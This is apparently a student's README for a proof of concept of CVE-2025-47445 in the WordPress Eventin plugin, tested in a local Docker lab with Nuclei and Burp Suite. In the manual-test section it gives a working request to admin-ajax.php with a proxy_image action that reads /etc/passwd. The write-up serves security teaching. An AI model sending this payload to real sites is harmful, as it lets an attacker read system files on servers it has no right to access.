


# CVE-2025-47445 PoC

This proof of concept is based on a school assignment where we wanted to find a vulnerable wordpress plugin and test said vulnerability in a local controlled environment.

| Info | |
|-|-|
| Wordpress plugin: | [Wordpress Eventin](https://wordpress.org/plugins/wp-event-solution/)
| Plugin version: | 4.0.26 (or older)
| CVE information: | [Project Discovery - Vulnerability library](https://cloud.projectdiscovery.io/library/CVE-2025-47445)
| | [CVEdetails.com](https://www.cvedetails.com/cve/CVE-2025-47445/)
| Tools of interest:  | [Wordfence Lab Environment](https://github.com/wordfence/bbp-dockerwp)
| | [Docker](https://www.docker.com/)
| | [Burp Suite](https://portswigger.net/burp/communitydownload)
| | [Nuclei](https://github.com/projectdiscovery/nuclei)

## Setting up the environment

Worfence Docker WordPress Research Lab comes with two different environments, one with an older PHP version, we will opt for the newer one.

    # In the dockerwp84 folder
    docker-compose build
    docker-compose up -d

After this I set up the Wordpress page through localhost:1337. I download the Eventin plugin, specifically version 4.0.26 from the plugin store and install and activate it through the Wordpress interface.

Now everything should be good to go.

## DAST / Nuclei

I want to see if Nuclei can find the CVE I am looking for, so I run an instance through a temporary docker container.

    docker run --rm projectdiscovery/nuclei -u http://host.docker.internal:1337

I've tried running Nuclei several times and got different results, not sure why. But eventually it finds the CVE, and a couple of other things I was not specifically searching for.

## Burp / Manual test

To see if I can access the /etc/passwd-file I just enter the following payload into my GET request.

    /wp-admin/admin-ajax.php?action=proxy_image&url=/etc/passwd

And it was a success.

## Conclusions

This was done for educational purposes.

Make sure you update all your software. New CVEs are found every day.